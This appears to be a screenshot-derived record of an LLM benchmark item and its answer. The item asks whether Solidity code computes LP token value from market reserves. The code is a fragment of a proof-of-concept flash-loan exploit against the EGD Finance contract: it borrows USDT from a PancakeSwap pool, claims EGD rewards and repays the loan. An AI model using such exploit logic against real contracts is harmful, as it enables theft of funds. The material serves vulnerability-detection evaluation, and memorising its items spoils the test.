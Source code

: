 │             console.log("Claim all EGD Token reward from EGD Finance contract");                                                                                                                                                                     │
│             IEGD_Finance(EGD_Finance).claimAllReward();                                                                                                                                                                                              │
│             emit log_named_decimal_uint("[INFO] Get reward (EGD token)", IERC20(egd).balanceOf(address(this)), 18);                                                                                                                                  │
│             // -----------------------------------------------------------------                                                                                                                                                                     │
│             uint256 swapfee = amount1 * 3 / 1000; // Attacker pay 0.3% fee to Pancakeswap                                                                                                                                                            │
│             bool suc = IERC20(usdt).transfer(address(EGD_USDT_LPPool), amount1 + swapfee);                                                                                                                                                           │
│             require(suc, "Flashloan[2] payback failed");                                                                                                                                                                                             │
│         }                                                                                                                                                                                                                                            │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "Yes"}                                                                                                                                                                                                                                         │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────────── Single Choice Scenario ───────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price based on the market reserves/AMMprice/exchangeRate OR the custom token balanceOf/totalSupply/amount/liquidity calculation                                               │
│ Code:                                                                                                                                                                                                                                                │
│     function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {                                                                                                                                             │
│         if (keccak256(data) == keccak256("0000")) {                                                                                                                                                                                                  │
│             console.log("Flashloan[1] received");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│             console.log("Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve");                                                                                                                                                       │